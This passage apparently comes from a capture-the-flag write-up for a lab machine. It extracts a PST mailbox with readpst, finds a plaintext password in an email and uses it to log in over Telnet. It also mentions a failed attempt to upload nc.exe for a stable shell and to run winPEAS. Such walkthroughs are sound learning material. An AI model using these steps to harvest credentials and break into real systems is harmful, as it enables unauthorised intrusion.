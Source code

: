 ```bash
$ mv Access\ Control.pst mail.pst
$ readpst mail.pst 
Opening PST file and indexes...
Processing Folder "Deleted Items"
        "Access Control" - 2 items done, 0 items skipped.

$ ls -l
total 5860
-rw-rw-r-- 1 kali kali   10870 Jul 14 09:53 'Access Control.zip'
-rw-r--r-- 1 root root     404 Jul 14 09:50  all
-rw-rw-r-- 1 kali kali 5652480 Aug 24  2018  backup.mdb
-rw-rw-r-- 1 kali kali    3112 Jul 14 10:26  mail.mbox
-rw-rw-r-- 1 kali kali  271360 Aug 24  2018  mail.pst
-rw-rw-r-- 1 kali kali   49379 Jul 14 10:19  schema.txt
```

Inside the `mail.mbox` file, we find the following content.

```text
Hi there,

The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.

Regards,
John
```


## Telnet

Once we are done with the files, we can now move on to the Telnet server on port `23`. 

```bash
$ telnet 10.10.10.98 23
Trying 10.10.10.98...
Connected to 10.10.10.98.
Escape character is '^]'.
Welcome to Microsoft Telnet Service 

login: security
password: 

*===============================================================
Microsoft Telnet Server.
*===============================================================
C:\Users\security>whoami
access\security
```

The credentials we extracted from the email, gives us access to the machine through the Telnet service.

Even though we gained access, it seems like the user we compromised cannot run any executables on the machine. I tried uploading a `nc.exe` and use it to gain a more stable shell, but it fails. Same with winPEAS as well.
